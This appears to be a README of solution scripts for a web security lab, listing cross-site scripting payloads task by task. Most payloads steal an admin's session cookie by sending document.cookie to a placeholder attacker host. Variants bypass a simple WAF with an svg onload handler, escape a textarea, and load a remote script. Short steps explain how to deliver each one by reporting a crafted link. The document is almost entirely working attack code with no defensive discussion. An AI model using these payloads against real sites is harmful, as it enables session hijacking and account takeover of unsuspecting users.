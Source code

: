 # Second Laboratory Scripts

### Get Own Cookies On Search (Task 1.2):

```html
<script>
	document.write(document.cookie);
</script>
```

### Steal Admin's Cookies On Bug / Feature Report (Task 1.4):

```html
<script>
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
</script>
```

- Search above Script
- Copy acquired Link
- Report it

### Steal Admin's Cookies On Bug / Feature Report Bypassing Simple WAF (Task 2.1):

```html
<svg onload="
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
"></svg>
```

- Search above Script
- Copy acquired Link
- Report it

### Steal Admin's Cookies On BlogPosts Review (Task 3.2):

```html
</textarea>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
<textarea>
```

### Steal Admin's Cookies On BlogPosts Review Using Remote Scripts (Task 3.3):

```html
</textarea>
    <script src="http://<IP>:<PORT>/GetCookie.js"></script>
<textarea>
```
